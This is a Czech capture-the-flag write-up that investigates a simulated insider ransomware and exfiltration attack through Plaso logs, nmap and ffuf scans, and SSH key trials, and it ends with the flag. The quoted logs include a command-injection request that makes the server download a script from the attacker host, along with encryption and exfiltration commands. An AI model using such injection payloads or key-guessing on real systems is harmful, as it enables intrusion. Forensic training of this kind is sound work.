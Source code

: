 # Threatening message (4)

## Zadání

Hi, emergency troubleshooter,

hurry to the SSD (Support Services Department) – they’ve received a threatening e-mail, probably from a recently dismissed employee. It threatens both the loss and the disclosure of our organization’s data. The situation needs to be investigated.

Stay grounded!

* [Download threatening message](threatening_message.zip)
* [Download materials for analysis](image.zip)

## Nápovědy (Hints)

1. Beware! You may face the real malware in this challenge.

## Řešení

Stažená zpráva obsahuje informaci o zakódování a získání souborů ze systému a také `Your unique ID: X1F9-28AA-91BC`.

Ve druhém souboru je log z forenzního nástroje pro časovou analýzu digitálních stop Plaso <https://plaso.readthedocs.io>.

Nejdříve si vyexportujeme log do CSV nebo XLSX souboru

```text
psort image.plaso -w export.csv
psort image.plaso -w export.xlsx -o xls
```

Útok začíná v čase `2025-08-25 13:13:00,000` pokusy o vzdálené spuštění kódu (http_request: GET /get_user_by__iid?q=whoami HTTP/1.1 from: 10.99.25.28 code: 200 user_agent: curl/7.88.1) a končí v čase `2025-08-25 13:31:04,013` odpojením SSH.

Řádky, které nás budou zajímat jsou

```text
http_request: GET /get_user_by__iid?q=curl http://[2001:db8:7cc::25:28]/my/backup2 -o /tmp/backup.sh HTTP/1.1 from: 2001:db8:7cc::25:28 code: 200 user_agent: curl/7.88.1

[sudo] doublepower : TTY=pts/0 ; PWD=/home/doublepower ; USER=root ; COMMAND=/home/doublepower/sc encrypt /srv/shared /home/doublepower/enc

[sudo] doublepower : TTY=pts/0 ; PWD=/home/doublepower ; USER=root ; COMMAND=/usr/bin/tar -czf /home/doublepower/shared.tar.gz /srv/shared

[nfdump] FLOW TCP 2001:db8:7cc::25:252 34934 -> 2001:db8:7cc::25:29 22 Packets=37 Bytes=70304 Duration=0.419
```

Útočník si z PC `2001:db8:7cc::25:28` stáhl nějaký soubor, zahesloval soubory v adresáři `/srv/shared`, zabalil je do `shared.tar.gz` a přenesl ho pomocí SSh na `2001:db8:7cc::25:29`.

Proskenujeme PC útočníka

`nmap.exe -6 2001:db8:7cc::25:28`

```text
PORT   STATE SERVICE
80/tcp open  http
```

Na webové stránce PC je jen obrázek `Power²`. Zkusíme zjistit, jestli je tam ještě něco.

`ffuf -u http://[2001:db8:7cc::25:28]/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
current                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 25ms]
index.html              [Status: 200, Size: 329, Words: 93, Lines: 19, Duration: 26ms]
keys                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 21ms]
ssh                     [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 32ms]
my                      [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 21ms]
tools                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 20ms]
```

Adresář `current` obsahuje soubory `read.me` ze dvou útoků, jeden je z našeho, ale soubor `shared.tar.gz` chybí.

Adresář `ssh` obsahuje 16 SSH klíčů.

Adresář `my` není vylistovaltelný, ale podle Plaso logu obsahuje soubor `backup2`.

Adresář `keys` obsahuje 512 RAS klíčů, jeden z nich byl použitý k zaheslování souborů.

Adresář `tools` není vylistovaltelný, ale obsahuje program `sc` použitý k zaheslování.

Postupně zkoušíme připojení pomocí SSH klíčů na server, kam útočník pravděpodobně nahrál zašifrovanou zálohu až najdeme ten správný.

`ssh -i id_doublepower_11 11@[2001:db8:7cc::25:29]`

Stáhneme si `shared.tar.gz`.

`scp -i id_doublepower_11 11@[2001:db8:7cc::25:29]:shared.tar.gz shared.tar.gz`

Dekryptovacích klíčů je hodně, tak si pomůžeme skriptem.

```sh
#!/bin/bash
tar axf shared.tar.gz

for key in *.pem; do
  ./sc decrypt srv "$key"

  rc=$?
  if [ "$rc" -eq 0 ]; then
    echo "Decrypt uspěl pro: $key"
    break
  fi
done
```

Dekódování uspěje s klíčem `key_140261531202.pem`.

V dekódovaných souborech je zajímavý `srv\shared\other\powerplant_selfdestruction.csv`, který obsahuje ve sloupcích Base64 data.

Hledaný FLAG je na řádce

`Horizon Nuclear   dGJVLVNmUmEtUWxKQ30=   QkFEQUZMQUd7bUtlay1F`

Po dekódování `tbU-SfRa-QlJC}` a `BADAFLAG{mKek-E`.

## Flag

`FLAG{mKek-EtbU-SfRa-QlJC}`
